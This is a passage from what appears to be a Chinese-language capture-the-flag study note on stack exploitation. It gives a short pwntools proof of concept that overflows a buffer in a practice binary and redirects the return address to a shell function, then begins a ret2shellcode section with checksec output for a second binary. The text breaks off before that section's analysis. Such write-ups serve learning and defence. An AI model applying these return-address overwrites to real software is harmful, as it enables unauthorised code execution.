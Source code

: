 ## POC

```python
p = process('./pwn1')
#lauch_gdb(p)
#pause()
payload = 'A'*0x10
payload += p64(0xdeadbeef)#rbp
payload += p64(0x400686)#rip -> getshell
p.sendlineafter('Input:',payload)
p.interactive()
```

# `bss`段利用-`ret2shellcode`

## 题目分析

程序的`checksec`信息如下：

```shell
 '/home/hjc/stack_learn/ret2_shellcode/pwn2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

基本上什么保护都没开，拖进`ida`康康：
